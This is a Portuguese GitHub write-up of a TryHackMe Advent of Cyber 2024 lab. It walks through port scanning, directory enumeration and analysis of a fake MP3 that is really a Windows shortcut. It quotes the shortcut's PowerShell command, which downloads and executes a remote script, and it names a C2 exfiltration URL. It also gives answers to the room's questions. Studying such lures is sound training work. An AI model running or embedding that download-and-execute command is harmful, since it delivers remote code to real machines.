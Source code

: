 # Advent-of-Cyber-2024-THM
![image](https://github.com/user-attachments/assets/04709f1d-900f-4a3e-9952-d24ccf24caf3)

Tarefa 7

Segurança operaciona

Dia 1: Talvez a música do SOC-mas, ele pensou, não venha de uma loja?

PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:

Executei o Nmap para escanear as portas que estavam abertas, o resultado mostrou 3 portas:
Porta 22 (SSH)
Porta 80 (HTTP)
Porta 8000 (HTTP-alt)



![image](https://github.com/user-attachments/assets/c7d43844-fdc9-454a-b562-953a2924df0f)

Em seguida enumerei os diretórios do webserver com o Gobuster, o que me mostrou o diretório /download estando disponivel



![image](https://github.com/user-attachments/assets/947a076f-b968-4f0e-a30b-a28302a3e680)

Acesse o diretório como http://IP_DA_MAQUINA/download, assim ele já faz download do arquivo zip denominado download.zip.

![image](https://github.com/user-attachments/assets/994d2165-81f4-4ee3-825c-79bc170fdae2)


Descompacte o arquivo zip, e lá conterá dois arquivos .mp3, sendo eles song.mp3 e somg.mp3

Utilizando o comando file song.mp3 eu identifiquei o arquivo como sendo um áudio em formato MPEG ADTS se trata realmente de um arquivo de musica, não tem nada de suspeito nele.
![image](https://github.com/user-attachments/assets/1d3396c9-3635-49b9-bcf2-8a1d47a8f7f8)

Mas temos um arquivo disfarçado sendo o segundo arquivo chamado de somg.mp3, a primeira vista também pode parecer suspeito por ter um erro de ortografia. mas iremos analisar a fundo esse arquivo.
Utilizei o comando file somg.mp3 identifiquei como um atalho LNK ao inves de um arquivo de audio, que apontava para o powershell.exe. iremos nos apronfundar muito mais.
![image](https://github.com/user-attachments/assets/4b9fb32d-e983-4834-9a9b-7282d912d88b)

Usei exiftool somg.mp3, para obter informações mais detalhadas sobre o atalho, e o arquivo apontava para um comando PowerShell, que baixava e executava um script localizado no GitHub, sendo o comando:
powershell.exe -ep bypass -nop -c (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1')

![image](https://github.com/user-attachments/assets/fdf7380b-cde3-42af-8c72-8a3699b23b60)



RESPONDENDO A 1ª PERGUNTA
![image](https://github.com/user-attachments/assets/45ce33f5-bab7-4c73-b64f-6bede4101ee0)
Eu também usei o exiftool no arquivo song.mp3, confirmando que ele era realmente um arquivo MP3 e obtendo a informação da 1ª pergunta da TAREFA 7, sendo o Artista: Tyler Ramsbey
![image](https://github.com/user-attachments/assets/9eb60ee0-4281-454e-90bd-57aed094c6fa)





RESPODENDO A 2ª PERGUNTA
![image](https://github.com/user-attachments/assets/84059020-f16f-4cc7-9b70-8812c1ed0da0)
Você executou o comando exiftool somg.mp3, copie o link, e cole no navegador, e analise o conteúdo, e que responde nossa pergunta está na função Send-InfoToC2Server que envia as informações roubadas para um servidor C2 (Command and Control) usando um comando Invoke-WebRequest. O servidor C2 especificado está localizado na URL http://papash3ll.thm/data.
![image](https://github.com/user-attachments/assets/e8316db0-ac58-46a6-a9ad-d1b66e6df77c)
![image](https://github.com/user-attachments/assets/29092bbb-e21b-436d-a9fe-cb63d0b974d1)








